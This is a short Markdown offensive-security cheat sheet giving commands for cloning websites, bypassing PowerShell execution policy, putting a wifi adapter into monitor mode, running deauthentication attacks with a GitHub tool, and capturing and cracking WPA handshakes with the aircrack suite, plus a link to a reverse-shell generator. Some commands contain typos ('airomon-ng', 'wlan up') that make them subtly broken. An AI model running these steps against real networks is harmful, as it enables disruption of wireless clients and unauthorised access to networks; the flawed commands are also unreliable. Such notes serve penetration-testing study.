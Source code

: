 ```yaml
---
author: clausmalver
title: Offensive Security Cheatsheet
description: A note for quick glances anything related for offensive security.
date: 2024-09-22
categories: [Notes, Hacking]
tags: [linux, powershell, hacking, offensive]
---
```

## Clone a website

Clone a website including images, css, etc.
`wget -mk -nH [URL]`

## Bypass Powershell Execution Policy
`Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted`

## Reverse shells
[Reverse Shell Generator](https://www.revshells.com/)

## Wireless

Collection of notes regarding wireless attack or similar.

### Alfa Networks

Get USB wifi adapter into monitor mode

```
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan up
```
Check if adapter is in monitor mode

`iwconfig wlan0`

### Wifi monitor using Kismet

`kismet -c wlan0 -p ~/log_directory -t output_file`

### Wifi monitor using airodump

`sudo airodump-ng wlan0`

### Deauth attacks

[wifi-deauth](https://github.com/flashnuke/wifi-deauth) - Python script for deauthing attacks

Install and run on system
```
git clone https://github.com/flashnuke/wifi-deauth.git
sudo pip3 install .
sudo wifi-deauth -i <wireless interface>
```

Remember to let it run for a bit so the app can collect clients it can deauth

### Stop interfering processes using airmon-ng

List possible interfering procceses
`sudo airmon-ng check`

Kill them
`sudo airmon-ng check kill`

### Crack WPA wifi

Set interface to monitor

`sudo ifconfig wlan0 down`
`sudo iwconfig wlan0 mode monitor`
`sudo ifconfig wlan0 up`

Kill all processes that uses the interface
`sudo airmon-ng check kill`

Start monitoring and get BBSID and channel you need to attack.
`sudo airomon-ng wlan0`

Specify the BSSID and Channel, and start capture the handshake
`airodump-ng -c [CHANNEL] --bssid [MAC ADRESS] -w [OUTPUTFILE] wlan0`

Crack the WPA password
`aircrack-ng -w [WORDLIST] -b [BBSID] [PCAP FILE]`
